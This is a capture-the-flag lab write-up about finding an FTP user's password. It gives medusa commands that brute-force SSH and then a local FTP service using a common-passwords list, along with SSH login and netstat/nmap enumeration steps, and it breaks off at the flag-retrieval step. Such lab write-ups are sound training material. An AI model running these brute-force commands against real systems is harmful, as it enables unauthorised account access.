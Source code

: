 # Web Services

### What was the password for the ftpuser?

Getting the flag:

**Step 1** - Launch the attack with this password [wordlist](https://raw.githubusercontent.com/danielmiessler/SecLists/refs/heads/master/Passwords/Common-Credentials/2023-200_most_used_passwords.txt):

* {% code overflow="wrap" %}
  ```bash
  medusa -h <SERVER_IP> -n <SERVER_PORT> -u sshuser -P 2023-200_most_used_passwords.txt -M ssh -t 3
  ```
  {% endcode %}
*

    <figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

**Step 2** - Login to the server with the password we just found:

* {% code overflow="wrap" %}
  ```bash
  ssh sshuser@<SERVER-IP> -p SERVER_PORT
  ```
  {% endcode %}
*

    <figure><img src="../../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

**Step 3** - Expand the Attack Surface:

* Execute the **netstat** command to listen open ports and listen service:
  *   ```bash
      netstat -tulpn | grep LISTEN
      ```


  *   And we found the port 21 open

      <figure><img src="../../../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>
* Confirm the port 21 is open with nmap:
  * ```bash
    nmap 127.0.0.1
    ```
  *

      <figure><img src="../../../.gitbook/assets/image (4) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

**Step 4** - Targeting the FTP Server:

* Brute-force the authentication mechanism:
  * ```bash
    medusa -h 127.0.0.1 -u ftpuser -P 2020-200_most_used_passwords.txt -M ftp -t 5
    ```
    *



**Step 5** - Retrieve the flag:
